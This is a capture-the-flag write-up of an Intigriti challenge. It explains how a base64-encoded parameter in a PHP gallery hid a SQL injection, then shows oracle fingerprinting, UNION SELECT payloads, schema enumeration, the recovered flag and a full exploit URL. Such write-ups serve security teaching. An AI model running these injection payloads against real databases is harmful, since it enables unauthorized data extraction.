



# Intigriti September Challenge (0926) — SQL injection behind a base64 curtain

*Write-up for https://challenge-0926.challenges.intigriti.io/ (challenge by khanhdlq). Published after the challenge ended, as requested by the Intigriti team. Solved 2026-09-21, about an hour and twenty minutes after the challenge opened.*



## TL;DR

The "Critter Gallery" passes the animal name in `?pic=` **base64-encoded**. The server decodes it and drops the result straight into a **single-quoted SQL string** with no parameterization:

```sql
SELECT description FROM animals WHERE name = '<decoded pic>'
```

The single-column result set is printed into the page's description card, so one `UNION SELECT` later the flag came out of a second table called `secret_vault`:

```
?pic=<base64 of: x' UNION SELECT note FROM secret_vault-- ->
INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}
```



## Recon: a PHP gallery with zero JavaScript

The challenge page is a small gallery of animal tiles. No frameworks, no client-side code, no CSP header (irrelevant in the end), PHP 8.2.33 behind istio-envoy. Each tile links to a detail card:

```
/challenge.php?pic=Zm94        -> base64("fox")
/challenge.php?pic=cGFuZGE=    -> base64("panda")
...
```

Two things stood out immediately:

1. The real input is hidden behind an encoding. Base64 here isn't a security control — but it does mean a scanner (or a casual glance at a WAF log) never sees quotes, spaces, or SQL keywords on the wire. The first move is simply: **decode the parameter in your head before judging the attack surface.**
2. The detail card renders `name`, an emoji, and a `description`. The description ends with a literal `<br>` in the HTML — appended by the template after escaping, as it turned out.

## Fingerprinting the injection with three one-character requests

I fed several decoded values through the parameter and watched status codes and body sizes:

| decoded `pic` | result |
|---|---|
| `foo` | normal page, "No critter goes by that name yet." |
| `A<b>B</b>` | normal page, `<h2>A&lt;b&gt;B&lt;/b&gt;</h2>` (output is escaped) |
| `'` (one quote) | **blank page** — HTTP 200, zero bytes |
| `''` (two quotes) | normal page |
| `\` (one backslash) | **blank page** |
| `FOX` | the fox description (case-insensitive match) |



That table is almost a signature. A lone `'` breaks the page while `''` is fine — exactly what happens when the value is interpolated into a single-quoted SQL literal and the string is left unterminated. The lone `\` breaks it because it escapes the *closing* quote of the literal. And `FOX` matching `fox` points to a case-insensitive MySQL collation. (In PHP terms: this is `"... WHERE name = '$name'"`, not a prepared statement.)

The blank page (200 with an empty body) rather than a 500 or a SQL error message means errors are swallowed — but the page itself is a perfect **boolean oracle**: renders = query valid, blank = query broken.

## From oracle to UNION: the description card is the read primitive

Next, column count. The detail card prints one text per row, which smells like a single-column SELECT — and `UNION SELECT 1` confirmed it: the page rendered a description card containing just `1`.

```
x' UNION SELECT 1-- -        -> desc shows "1"
x' UNION SELECT 1,2-- -      -> blank (column mismatch)
```

The result set (not just one row) is looped into the card — `fox' OR '1'='1` printed all eight animal descriptions at once — so no `LIMIT` gymnastics were needed anywhere.

## Schema, then the flag

With a read primitive in hand, `information_schema` gave up the layout: database `critter_gallery` (MySQL 8.0.46), tables `animals(id, name, description)` and — a name that could not be more on the nose — `secret_vault(id, note)`.

```
x' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()-- -
-> animals,secret_vault
```

And then:

```
x' UNION SELECT note FROM secret_vault-- -
-> INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}
```

Full one-liner URL (base64 of the payload above in `pic`):

```
https://challenge-0926.challenges.intigriti.io/challenge.php?pic=eCcgVU5JT04gU0VMRUNUIG5vdGUgRlJPTSBzZWNyZXRfdmF1bHQtLSAt
```

## Why it never became an XSS

Everything user-controlled reaches the page through `htmlspecialchars` (`<h2>` escapes quotes too, e.g. `&#039;`), and the `<br>` after each description is template-appended — so the injection is a **data extraction** bug, not a markup injection. That's worth stating explicitly, because "SQLi → reflected XSS" is the reflex on these challenges; here the escaping was actually correct. The bug lived entirely server-side.

## Lessons I'm keeping

- **Decode before you judge.** An encoded parameter moves the injection point off the wire; `base64_decode()` in your head (or a shell) is the first step, not an afterthought.
- **Cheap oracles first.** One quote, two quotes, one backslash, and a case-flip — four requests — fingerprinted the exact quoting style, the escaping, and the collation before I sent a single SQL keyword.
- **Blank ≠ boring.** A 200-with-empty-body is a swallowed error, and a swallowed error on input shape is a finding's shadow.

All testing was read-only (`SELECT` only); no data was modified. Thanks to khanhdlq for the clean little challenge, and to the Intigriti team for running these every month.

— superx
